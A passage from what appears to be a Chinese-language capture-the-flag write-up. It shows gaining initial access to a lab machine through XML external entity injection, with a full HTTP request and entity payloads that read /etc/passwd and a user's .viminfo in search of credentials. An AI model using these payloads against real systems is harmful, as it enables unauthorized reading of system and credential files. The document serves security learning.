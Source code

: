 ## 3. 获取初始访问权限 (Initial Access - XXE)

### 3.1. 确认漏洞 (Confirming Vulnerability)

为了验证 XXE 漏洞，我需要构造一个包含 XML 外部实体声明的 POST 请求。

![XXE Payload Preparation](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250430202715434.png)

我注意到提交表单后，输入的 Email 地址会被回显到响应页面中。这提供了一个方便的位置来注入并显示外部实体的内容。

**构造 HTTP POST 请求 (使用 Burp Repeater):**

```http
POST / HTTP/1.1
Host: 192.168.205.197
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 231
Origin: http://192.168.205.197
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://192.168.205.197/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]>
      <user>
          <name>John Doe</name>
          <tel>123-4567890</tel>
          <email>&xxe;</email>
          <password>secret123</password>
        </user>
```

* **分析响应:**

  服务器返回的响应页面中，原本显示 Email 的地方，现在显示了 `/etc/passwd` 文件的内容。

  ![XXE Result - /etc/passwd Content](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250430203121961.png)

  这成功确认了 XXE 漏洞的存在。从 `/etc/passwd` 的内容中，我注意到了一个名为 `welcome` 的普通用户 (`uid=1000`)。

### 3.2. 漏洞利用 (Exploitation - Credential Discovery)

确认漏洞后，目标是利用它来获取敏感信息，最好是用户凭据。考虑到 `welcome` 用户的存在，我尝试读取其家目录下的常见敏感文件。在尝试了 `.bash_history`、`.ssh/id_rsa` 等文件无果后，我决定尝试读取 `.viminfo` 文件。Vim 编辑器的历史记录文件有时会意外地包含密码或其他敏感信息。

* **构造读取 `.viminfo` 的 Payload:**

  ```http
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/welcome/.viminfo">]>
  <user>
      <name>John Doe</name>
      <tel>123-4567890</tel>
      <email>&xxe;</email>
      <password>secret123</password>
  </user>
  ```
